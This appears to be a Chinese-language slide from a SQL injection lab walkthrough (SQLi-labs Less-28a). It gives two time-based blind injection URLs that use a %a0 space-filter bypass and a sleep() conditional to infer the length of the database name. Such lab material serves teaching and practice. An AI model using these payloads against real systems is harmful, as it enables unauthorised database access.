

# Less-28a_02
法二：基于时间的盲注
1. http://47.100.118.240:8888/Less-28a/?id=11111') %a0  or  %a0   if( length(database())=8, 1, sleep(5)    ) --+
或者是
2. http://47.100.118.240:8888/Less-28a/?id=1‘) %a0  and  %a0   if( length(database())=8, 1, sleep(5)    ) --+  此时要确保前面的id值是可以查到的，不能使用一个不存在的id值。